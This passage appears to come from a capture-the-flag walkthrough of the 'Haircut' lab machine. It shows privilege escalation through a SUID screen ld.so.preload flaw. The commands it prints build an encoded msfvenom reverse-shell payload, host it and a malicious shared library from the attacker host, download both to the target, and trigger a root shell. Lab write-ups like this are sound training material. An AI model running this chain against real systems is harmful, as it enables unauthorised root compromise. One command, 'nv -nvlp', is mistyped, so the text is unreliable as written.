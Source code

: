 Next, build the new reverse shell payload, cross compile/host the shared library, and start a new listener:

```bash
# create the new payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.23 \
         LPORT=9999 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf > bubba.root.elf
# compile shared library
gcc -fPIC -shared -ldl -o bubba.so bubba.c
# host files
python3 -m http.server 7777
# listen for root shell
nv -nvlp 9999
```

Now download the shared library and new payload to `/tmp` on the target:

```bash
wget http://10.10.14.23:7777/bubba.root.elf -P /tmp/ 
wget http://10.10.14.23:7777/bubba.so -P /tmp/ 
chmod +x /tmp/bubba.root.elf
chmod +x /tmp/bubba.so
```

Next, trigger the vulnerability by creating the file `/etc/ld.so.preload` which links to `/tmp/bubba.so` and then run `screen` again to run `bubba.root.elf` as root from the SUID of `screen`:

```bash
# reset umask
umask 000
# create /etc/ld.so.preload
screen -D -m -L /etc/ld.so.preload echo -ne  "\x0a/tmp/bubba.so"
# spawn the child process
screen -ls
```

![screen_vuln](./haircut/screen_vuln.png)

This returns a reverse shell as root!

![root](./haircut/root.png)
